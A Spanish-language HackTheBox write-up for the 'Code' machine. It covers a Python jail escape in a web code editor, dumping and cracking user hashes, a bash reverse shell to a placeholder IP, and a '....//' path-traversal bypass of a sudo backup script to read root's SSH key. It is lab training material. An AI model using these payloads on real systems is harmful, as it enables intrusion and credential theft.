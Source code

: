 ```yaml
---
layout: post
title:  "Code - HackTheBox"
date:   2025-08-10
categories: [HTB]
tags: [HackTheBox, Python, directory-traversal]
image: "../assets/machines/HTB_Code/logo.png"
---
```

**Code** es una máquina Linux de nivel **EASY** que cuenta con una aplicación web <span class="color-text-teal">Python Code Editor </span>vulnerable a la <span class="color-text-salmon">**ejecución remota de código**</span> <span class="color-text-red">(RCE)</span> mediante la elusión de Python Jail.

Puedes jugar a la maquina dando [**CLICK AQUI**](https://www.hackthebox.com/machines/Code)

![](/assets/machines/HTB_Code/info.png)

# Enumeracion

Si usamos nmap para analizar los puertos abiertos del servicio:

`nmap -T5 <IP> -n -Pn`

![](/assets/machines/HTB_Code/1.png)

Encontraremos **2 servicios activos**: 

- El puerto 22, perteneciente a <span class="color-text-red">SSH</span>.

- El puerto 5000, perteneciente a una web que almacena un editor de Python en linea.

Si vamos al editor en linea, nos toparemos con:

![](/assets/machines/HTB_Code/2.png)

Pero nos vamos a topar con una sorpresa y es que **NO** podremos ejecutar ciertos comandos, debido a que existe una restriccion:

![](/assets/machines/HTB_Code/3.png)

Si ejecutamos:

`print(globals().keys())`

Obtendremos lo siguente:

![](/assets/machines/HTB_Code/4.png)

Nos toparemos con cosas interesantes, como que:

- Usan Flask

- Existe una base de datos y distintas rutas dentro del servicio web

## Metodo de intrusion #1

Vemos que tenemos una base de datos corriendo dentro del modulo, asi que usaremos: 

`help(user)`

Y obtendremos como respuesta:

![](/assets/machines/HTB_Code/5.png)

Por lo que usaremos SQLAlchemy ORM, y corremos el siguiente comando:

`print(db.session.query(User).all())`

Obteniendo como resultado:

![](/assets/machines/HTB_Code/6.png)

Entonces, vemos que existen 2 usuarios, por lo que ejecutaremos un bucle for para obtener la informacion, en este caso su nombre y contrasena:

![](/assets/machines/HTB_Code/7.png)

Vemos que obtenemos 2 hashes, pertenecientes al usuario <span class="color-text-red">**development**</span> y <span class="color-text-red">**martin**</span>.

Antes de pasarlas a crackear, quiero decir que estos **hashes** son cadenas de 32 caracteres, lo que puede ser un <span class="color-text-orange">**HASH-MD5**</span>.

![](/assets/machines/HTB_Code/8.png)

Vemos que obtenemos la contrasena para ambos usuarios, por lo que nos queda probarlas con el usuario martin en el puerto **SSH**.

![](/assets/machines/HTB_Code/9.png)

Y listo, ya estamos dentro.

## Metodo de intrusion #2 (Mas elaborado).

Del mismo modo que enumeramos las variables globales, podemos enumerar las fuciones **built-in** del servicio <span class="color-text-lime">Python</span>.

`print(dir(print.__self__))`

![](/assets/machines/HTB_Code/10.png)

Vemos varias funciones interesantes, pero la que nos llama la atencion es **getattr**

Entonces, recordemos que existe un bloqueo de ciertas palabras, como lo son <span class="color-text-salmon">import, os</span>.

Entonces, nosotros buscamos ejecutar comandos de la siguiente forma

{% highlight python %}
a = getattr(print.__self__, '__import__')('os')
getattr(a, 'system')('<COMANDO>')
{% endhighlight %}

![](/assets/machines/HTB_Code/11.png)

Por lo que queda adecuarlo al compilador, tratando de saltarnos la blacklist:

![](/assets/machines/HTB_Code/12.png)

Como podemos ver, podemos ejecutar comandos de forma remota, por lo que nos queda ejecutar una reverse shell:
{% highlight bash %}
bash -c "bash -i&>/dev/tcp/<IP>/PUERTO 0>&1"
{% endhighlight %}
![](/assets/machines/HTB_Code/13.png)

<span class="color-text-red">Por lo que ya hemos ganado acceso a la maquina.</span>

Y del mismo modo, podremos acceder a la base de datos y ver los hashes para romper:

![](/assets/machines/HTB_Code/14.png)

# Privesc

Una vez como el usuario <span class="color-text-red">martin</span>, enumeraremos permisos a nivel de sudoers y veremos:

![](/assets/machines/HTB_Code/15.png)

Entonces, si analizamos el siguiente archivo veremos que tiene el siguiente codigo:

{% highlight bash %}
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
{% endhighlight %}

### Descubriendo la funcion vulnerable

Si analizamos el codigo, veremos que:

- Los paths "permitidos" son: **/home/** y **/var/**.

- La variable **updated_json** hace una evaluacion de caracteres especiales, especificamente el "**.** y **/**"

- Necesitaremos un archivo json.

Entonces, la via mas rapida de escapar a esta validacion es:

`En vez de hacer ../ -> ....//`

Si vemos dentro del home de **martin**, veremos que existe una carpeta llamada "**backups**".

![](/assets/machines/HTB_Code/16.png)

Lo que podemos adecuar, en este caso el parametro que nos interesa es el

`directories_to_archive`

Por lo que lo vamos a cambiar a una ruta que apunte al directorio **/root**

![](/assets/machines/HTB_Code/17.png)

Y ejecutaremos el comando con permisos de sudoers:

![](/assets/machines/HTB_Code/18.png)

Y bueno, adicionalmente tendremos una **id_rsa** dentro de la carpeta **.ssh**, por lo que podremos entrar como root:

![](/assets/machines/HTB_Code/19.png)

# FIN